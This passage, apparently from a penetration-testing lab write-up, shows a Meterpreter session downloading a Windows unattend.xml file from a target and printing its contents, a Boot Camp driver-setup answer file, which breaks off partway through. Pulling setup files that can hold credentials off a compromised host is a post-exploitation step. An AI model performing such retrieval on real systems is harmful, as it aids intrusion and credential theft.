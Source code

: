 ```
[*] Downloading: unattend.xml -> unattend.xml
[*] Downloaded 3.44 KiB of 3.44 KiB (100.0%): unattend.xml -> unattend.xml
[*] download   : unattend.xml -> unattend.xml
meterpreter >
```

Basic Concatenate command to see the content of unattend.xml in kali as we downloaded it using the meterpreter session.

```
root@attackdefense:~# cat unattend.xml 
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="windowsPE">
        <component name="Microsoft-Windows-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <UserData>
                <ProductKey>
                    <WillShowUI>Always</WillShowUI>
                </ProductKey>
            </UserData>
            <UpgradeData>
                <Upgrade>true</Upgrade>
                <WillShowUI>Always</WillShowUI>
            </UpgradeData>
        </component>
        <component name="Microsoft-Windows-PnpCustomizationsWinPE" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <DriverPaths>
                <PathAndCredentials wcm:keyValue="1" wcm:action="add">
                    <Path>$WinPEDriver$</Path>
                </PathAndCredentials>
            </DriverPaths>
        </component>
    </settings>
    <settings pass="specialize">
        <component name="Microsoft-Windows-Deployment" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <RunSynchronous>
                <RunSynchronousCommand wcm:action="add">
                    <Order>1</Order>
                    <Path>cmd /c "FOR %i IN (X F E D C) DO (FOR /F "tokens=6" %t in ('vol %i:') do (IF /I %t NEQ "" (IF EXIST %i:\BootCamp\BootCamp.xml Reg ADD "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v AppsRoot /t REG_SZ /d %i /f )))"</Path>
                </RunSynchronousCommand>
            </RunSynchronous>
        </component>
    </settings>
    <settings pass="oobeSystem">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <FirstLogonCommands>
              <SynchronousCommand wcm:action="add">
                <Description>AMD CCC Setup</Description>
                <CommandLine>%AppsRoot%:\BootCamp\Drivers\ATI\ATIGraphics\Bin64\ATISetup.exe -Install</CommandLine>
                <Order>1</Order>
                <RequiresUserInput>false</RequiresUserInput>
              </SynchronousCommand>
              <SynchronousCommand wcm:action="add">
```